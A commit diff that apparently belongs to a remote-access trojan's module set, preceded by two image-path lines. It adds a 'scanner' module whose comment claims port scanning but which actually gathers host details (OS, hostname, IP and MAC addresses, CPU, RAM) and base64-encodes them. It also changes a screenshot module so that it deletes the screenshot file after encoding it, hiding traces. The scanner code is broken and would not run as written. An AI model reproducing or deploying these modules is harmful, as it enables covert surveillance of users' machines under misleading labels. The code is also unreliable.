

update

diff --git a/modules/scanner.py b/modules/scanner.py
@@ -1,0 +1,21 @@
+# scan for open ports and return the result
+import platform,socket,re,uuid, psutil, json, base64
+
+def run(**args):
+    info={}
+    info['platform']=platform.system()
+    info['platform-release']=platform.release()
+    info['platform-version']=platform.version()
+    info['architecture']=platform.machine()
+    info['hostname']=socket.gethostname()
+    info['ip-address']=socket.gethostbyname(socket.gethostname())
+    info['mac-address']=':'.join(re.findall('..', '%012x' % uuid.getnode()))
+    info['processor']=platform.processor()
+    info['ram']=str(round(psutil.virtual_memory().total / (1024.0 **3)))+" GB"
+    json.dump(info)
+    # encode info to base64 
+    message_bytes = info.encode('ascii')
+    base64_bytes = base64.b64encode(message_bytes)
+    base64_message = base64_bytes.decode('ascii')
+
+    return base64_message

diff --git a/modules/screener.py b/modules/screener.py
@@ -1,5 +1,6 @@
 import mss
 import mss.tools
+import os
 import base64
 
 
@@ -19,4 +20,7 @@ def run(**args):
         # # Save png to file
         with open("screenshot.png", "rb") as image:
             encoded_string = base64.b64encode(image.read())
+        # delete screenshot.PNG
+        os.remove('screenshot.png')
         return(encoded_string)
+
